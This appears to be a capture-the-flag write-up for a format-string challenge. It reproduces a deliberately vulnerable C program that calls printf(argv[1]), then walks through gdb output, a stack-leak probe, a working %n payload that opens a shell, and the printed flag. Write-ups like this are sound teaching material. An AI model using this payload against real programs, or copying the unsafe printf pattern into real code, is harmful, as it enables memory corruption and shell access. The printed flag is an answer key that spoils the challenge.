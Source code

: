 # Format - 70

```
This program is vulnerable to a format string attack! See if you can modify a variable by supplying a format string! The binary can be found at /home/format/ on the shell server. The source can be found here.
```

Source code:

```
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>

int secret = 0;

void give_shell(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh -i");
}

int main(int argc, char **argv){
    int *ptr = &secret;
    printf(argv[1]);

    if (secret == 1337){
        give_shell();
    }
    return 0;
}
```

printf(argv[1]); // this is where the format string bug.

Notes:
* We have to satisfy secret == 1337 to execute give_shell
* secret is global variable and initialize with 0
* We have to use this bug to set the secret to 1337

```
pico1139@shell:/home/format$ gdb -q format 
Reading symbols from format...(no debugging symbols found)...done.
(gdb) p &secret
$1 = (<data variable, no debug info> *) 0x804a030 <secret>
(gdb) q

pico15664@shell:/home/format$ ./format %08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.08x
ffffd764.ffffd770.f7e4f42d.f7fc73c4.f7ffd000.0804852b.0804a030.08048520.00000000 
                                                      --secret--

pico15664@shell:/home/format$ ./format $(python -c 'print "%1337x%7$n"')

//x%7 seventh value on stack 
//$n write to that spot 
//%1337 I am sure no explanation is needed for this.

$ ls
Makefile  flag.txt  format    format.c
$ cat flag.txt
who_thought_%n_was_a_good_idea? 
```

```
Flag: who_thought_%n_was_a_good_idea?
```
